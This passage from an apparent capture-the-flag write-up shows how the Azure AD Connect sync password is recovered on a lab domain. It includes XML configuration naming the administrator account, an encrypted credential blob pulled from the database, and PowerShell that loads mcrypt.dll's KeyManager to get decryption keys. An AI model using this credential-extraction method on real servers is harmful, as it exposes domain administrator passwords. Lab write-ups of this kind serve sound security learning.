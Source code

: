      <parameter name="forest-login-user" type="string" use="connectivity" dataType="String">administrator</parameter>
      <parameter name="password" type="encrypted-string" use="connectivity" dataType="String" encrypted="1" />
      <parameter name="forest-name" type="string" use="connectivity" dataType="String">MEGABANK.LOCAL</parameter>
      <parameter name="sign-and-seal" type="string" use="connectivity" dataType="String">1</parameter>
      <parameter name="crl-check" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="ssl-bind" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="simple-bind" type="string" use="connectivity" dataType="String">0</parameter>
      <parameter name="Connector.GroupFilteringGroupDn" type="string" use="global" dataType="String" />
      <parameter name="ADS_UF_ACCOUNTDISABLE" type="string" use="global" dataType="String" intrinsic="1">0x2</parameter>
      <parameter name="ADS_GROUP_TYPE_GLOBAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000002</parameter>
      <parameter name="ADS_GROUP_TYPE_DOMAIN_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
      <parameter name="ADS_GROUP_TYPE_LOCAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000004</parameter>
      <parameter name="ADS_GROUP_TYPE_UNIVERSAL_GROUP" type="string" use="global" dataType="String" intrinsic="1">0x00000008</parameter>
      <parameter name="ADS_GROUP_TYPE_SECURITY_ENABLED" type="string" use="global" dataType="String" intrinsic="1">0x80000000</parameter>
      <parameter name="Forest.FQDN" type="string" use="global" dataType="String" intrinsic="1">MEGABANK.LOCAL</parameter>
      <parameter name="Forest.LDAP" type="string" use="global" dataType="String" intrinsic="1">DC=MEGABANK,DC=LOCAL</parameter>
      <parameter name="Forest.Netbios" type="string" use="global" dataType="String" intrinsic="1">MEGABANK</parameter>
    </parameter-values>
     <password-hash-sync-config>
                <enabled>1</enabled>
                <target>{B891884F-051E-4A83-95AF-2544101C9083}</target>
             </password-hash-sync-config>
    </adma-configuration>
    8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g95aWEcUSzl7mTXwR4Pe3uvsf2P8Oafih7cjjsubFxqBioXBUIuP+BPQCETPAtccl7BNRxKb2aGQ=

    (1 rows affected)



The encrypted password is there at the bottom, and the config is at the
top.

#### Decrypt

The third section of the script decrypts. First it goes through a series
of hoops to get the decryption object from the KeyManager:



    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
